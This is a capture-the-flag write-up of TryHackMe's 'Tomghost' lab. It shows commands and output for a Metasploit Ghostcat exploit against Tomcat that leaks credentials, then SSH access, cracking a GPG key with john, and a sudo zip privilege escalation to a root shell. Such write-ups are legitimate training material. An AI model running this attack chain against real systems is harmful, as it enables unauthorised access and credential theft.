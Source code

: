 ```yaml
---
title: "Tomghost"
date: 2023-04-20 
image: /assets/img/Posts/tomghost/banner.png 
categories: [Tryhackme, Easy]
tags: [nmap, metaslpoit, ssh, gpg, john, gtfobins]     # TAG names should always be lowercase
---
```


> [Tomghost](https://tryhackme.com/room/tomghost) is a linux machine which is rated easy by TryHackMe. This machine covers vulnerability on the Tomcat apache server and privilege escalation on a different user on the box. I'll have to remove the flags and passwords...
{: .prompt-tip }

## Network scanning
The machine IP address is `10.10.68.255` and we shall start by scanning it by using `nmap`.

Command: `nmap -sC -sV -oA initial 10.10.68.255`


```bash 
└─$ nmap -sC -sV -oA initial 10.10.68.255 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-20 11:58 EAT
Nmap scan report for 10.10.68.255
Host is up (0.17s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3c89f0b6ac5fe95540be9e3ba93db7c (RSA)
|   256 dd1a09f59963a3430d2d90d8e3e11fb9 (ECDSA)
|_  256 48d1301b386cc653ea3081805d0cf105 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 120.12 seconds
```

## Enumeration

There is a website running on port 8080. We notice it is `Apache Tomcat` version `9.0.30`. If we google some of the vulnerabilities which affected that version we get `File upload vulnerability` [CVE-2020-1938](https://www.exploit-db.com/exploits/49039). Now lets launch `Metaslpoit` and search it.

```bash
msf6 > search CVE-2020-1938

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/http/tomcat_ghostcat
```

Use the exploit which we have found.

```bash
use auxiliary/admin/http/tomcat_ghostcat
```

Then set the RHOSTS to our machine's IP address.

```bash
msf6 auxiliary(admin/http/tomcat_ghostcat) > set rhosts 10.10.68.255
rhosts => 10.10.68.255
```

Once you have set the `rhosts` you can now `exploit` the system by using `run` or `exploit`

```bash
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 10.10.68.255
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1261-1583902632000"
Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
Content-Type: application/xml
Content-Length: 1261
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:I_HAVE_REMOVED_THE_PASSWORD
  </description>

</web-app>
msf6 auxiliary(admin/http/tomcat_ghostcat) >
```
You will find the username and the password on the `description tag`. 
You can also find this file here: `/home/{YOUR_USERNAME}/.msf4/loot/20230420121725_default_10.10.68.255_WEBINFweb.xml_167447.txt`

## Initial Foothold
Since we have the username and password we can `ssh` into the machine. 

```bash
└─$ ssh skyfuck@10.10.68.255
```

lets cat the user flag

```bash
skyfuck@ubuntu:~$ cat /home/merlin/user.txt 
THM{I_HAVE_REMOVED_THE_FLAG}
```

If we go to the `home` directory, we find two files:

```bash
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```
Lets copy the files to our machine so as we can crack the `credential.gpg`

```bash
└─$ scp skyfuck@10.10.68.255:/home/skyfuck/* .
skyfuck@10.10.68.255's password: 
credential.pgp                                    100%  394     0.9KB/s   00:00    
tryhackme.asc
```

We shall use `John` to crack the password meaning we have to use `gpg2john` so as we have it's hash to crack it.
```bash
└─$ gpg2john tryhackme.asc > hash
```

Now fire up john and let it do its thing.
```bash
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
I_HAVE_REMOVED_THE_PASSWORD        (tryhackme)     
1g 0:00:00:00 DONE (2023-04-20 12:37) 1.923g/s 2061p/s 2061c/s 2061C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Nice... We have the password of the `gpg` file so lets first import it.
```bash
skyfuck@ubuntu:~$ gpg --import tryhackme.asc 
gpg: key C6707170: secret key imported
gpg: /home/skyfuck/.gnupg/trustdb.gpg: trustdb created
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

Once we have imported it we are going to decrypt the gpg.
```bash
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:I_HAVE_REMOVED_THE_PASSWORD
skyfuck@ubuntu:~$
```
Wooah... We have found another user and the password.

## Privilege Escalation

Lets login in his account and find our way to being the root.

```bash
└─$ ssh merlin@10.10.68.255
merlin@10.10.68.255's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)
```

By running `sudo -l` we see that the `/usr/bin/zip` can be ran by this user with root privilege.
```bash
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:~$
```

So lets go to `gtfobins` and find our payload to use. [Link](https://gtfobins.github.io/gtfobins/zip/#sudo)

```bash
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

We have root soo lets get our flag and get out of here.
```bash
# cat /root/root.txt
THM{I_HAVE_REMOVED_THE_FLAG}
#
```

> If you have any other additional information and resources you can add it at the comment section. **THANKS ;)**
{: .prompt-warning }
